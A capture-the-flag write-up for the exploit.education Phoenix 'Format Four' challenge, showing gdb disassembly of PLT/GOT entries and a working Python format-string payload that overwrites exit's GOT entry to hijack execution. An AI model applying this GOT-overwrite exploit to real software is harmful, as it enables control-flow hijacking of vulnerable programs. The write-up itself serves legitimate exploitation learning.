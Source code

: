 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 4

Write-up for: [https://exploit.education/phoenix/format-four/](Format Four)

<!--more-->

The bug in this challenge is the same as in the previous one, so I'm not going into details. But this time, the goal is to redirect execution. The key to solving this challenge is the slightly modified `bounce` function:

```C
void bounce(char *str) {
    printf(str);
    exit(0);
}
```

It was extended by a call to the externally defined (in the standard library) `exit` function. Since the location of this function is not known to program at compile time, it's the linkers job to fill in this detail during dynamic linking. For this, there is the PLT and GOT (procedure linkage table and global offset table).

Basically, there is an additional layer of indirection. Instead of directly jumping to the function, execution goes through the PLT which in turn jumps to an offset stored in the GOT.

In gdb this looks as follows:

```
(gdb) disas bounce
Dump of assembler code for function bounce:
0x080484e5 <+0>:     push   %ebp
0x080484e6 <+1>:     mov    %esp,%ebp
0x080484e8 <+3>:     sub    $0x8,%esp
0x080484eb <+6>:     sub    $0xc,%esp
0x080484ee <+9>:     pushl  0x8(%ebp)
0x080484f1 <+12>:    call   0x8048300 <printf@plt>
0x080484f6 <+17>:    add    $0x10,%esp
0x080484f9 <+20>:    sub    $0xc,%esp
0x080484fc <+23>:    push   $0x0
0x080484fe <+25>:    call   0x8048330 <exit@plt>
```

At the end of `bounce` we call the `exit@plt` symbol. This is not the actual function but its' representation in the PLT. It looks like this:

```
(gdb) disas 0x8048330
Dump of assembler code for function exit@plt:
0x08048330 <+0>:     jmp    *0x80497e4
0x08048336 <+6>:     push   $0x18
0x0804833b <+11>:    jmp    0x80482f0
```

As you can see, we jump to an address stored at `0x80497e4`. This is the entry in the GOT filled by the dynamic linker during program load:

```
(gdb) x 0x80497e4
0x80497e4 <exit@got.plt>:       0xf7f7f543
```

This means, the actual code for the `exit` function starts at `0xf7f7f543`.

But how does this help us as attackers?

# Redirecting code execution

In the previous challenge we established an arbitrary write primitive using the format string exploit. We can now use this to overwrite the entry in the GOT! This means, when going through the PLT, execution will jump to an address of our choosing instead of to libc.

The goal is simple: overwrite the value at `0x80497e4` with the address of the `congratulations` function which is `0x08048503`.

```
(gdb) disas congratulations
Dump of assembler code for function congratulations:
0x08048503 <+0>:     push   %ebp
...
0x0804851e <+27>:    call   0x8048330 <exit@plt>
```

This can be achieved reusing the exploit from the previous exercise and adapting the values to the new addresses:

```python
import struct

ADDR = 0x80497e4

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x8503 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x10804 - 0x8503) +  "x" + "%n" # Write to upper 2 bytes
print buf
```

Just like before, we write twice to avoid having to write a huge number of characters. First we write the lower two bytes of the target address. Then we again make use of the fact that we write 4-byte values and we can overflow the 2-byte value to be smaller than the first one (see format-three for details). Run the payload and, voila!

 ```
 $user@phoenix-amd64:/opt/phoenix/i486$ ./format-four < <(python ~/format-four.py)
 ...
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 ...
 ```

 Now, the program is stuck in an endless loop. This is expected since `congratulations` also calls `exit`. And since we overwrote `exit` with `congratulations`, we enter an endless recursion.

